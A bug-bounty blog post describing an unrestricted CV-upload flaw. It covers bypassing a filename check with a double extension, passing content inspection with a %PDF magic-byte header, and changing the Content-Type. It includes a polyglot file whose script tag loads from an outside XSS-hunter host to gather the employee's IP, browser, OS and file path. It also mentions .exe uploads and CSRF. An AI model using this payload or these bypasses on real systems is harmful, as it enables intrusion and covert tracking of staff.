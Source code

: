 ```yaml
---
layout: post
title: Unrestricted CV File Upload
categories: bug hunting 
---
```


While I'm stuck at quarantine like the rest of the world, I have more time to work on my web app hacking skills by doing some bug bounties. From those bugs that I found in this long BB session of mine, I got to report my first Unrestricted File Upload.

OWASP explains the vulnerability in great detail [here](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload).

So the functionality of the service goes like that: a user can upload their CV on the website. The web app renames and saves the file, which is going to be examined later by an employee of the company on their computer locally. After examining the file, the employee will update the user's profile based on the info of the CV.

###### Source: OWASP
![screenshot](../images/screenshot.png)

While examining the service I tried to upload a basic "hello world" HTML file. But it was immediately rejected. The file wasn't even probed to be uploaded so I guessed a content inspection didn't even take place. So maybe the first obstacle was the filename itself. Changing the filename from ``file.html`` to ``file.html.pdf`` got the file to be accepted.

After that, I hit "Upload" but the file got rejected again. This is where the content inspection (if that's the correct way to say it) took place. 

At this point I had to trick the system and make it believe that this was indeed a pdf file. Here I have to thank [HTB](https://www.hackthebox.eu/), as this is where I first learned about bypassing protection with File Signatures or also known as [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures). Adding the signature ``%PDF-1.`` at the top of the HTML file, I could bypass the protection. Also, by changing the Content-Type of the file from ``application/pdf`` to ``text/html`` the file was getting downloaded and opened as a HTML file. I added the a basic XSS payload in orded to get notified if the employee opened the file (because I thought that if they saw a HTML file they would automatically delete/dismiss it. So the file at the end looked like this:
```
$ cat fileupload.html.pdf 
%PDF-1.
<html>
<script src=https://vict0ni.xss.ht></script>
</html>
```
Even though there wasn't any cookies to steal, because the file was not rendered inside the company's system (sadly, for me, as this would have opened ways for possible RCE), it served the purpose of notifying me in case the file was opened and getting some information, like the employee's IP and geolocation, their web browser, OS and path ``file:///C:/Users/[employee's name]/Downloads/``. While this info is not useful for me as a bug hunter, they can be useful for adversaries. I also tested the vulnerability for .exe files and I was successful again.

###### Source: OWASP
![screenshot_1](../images/screenshot_1.png)

I hope you gained something from my experience.

Bonus: The file upload service was also vulnerable to CSRF, which means that I could also upload a malicious file via another user and also possibly infect them, as the uploaded CV can also be downloaded by the users themselves.

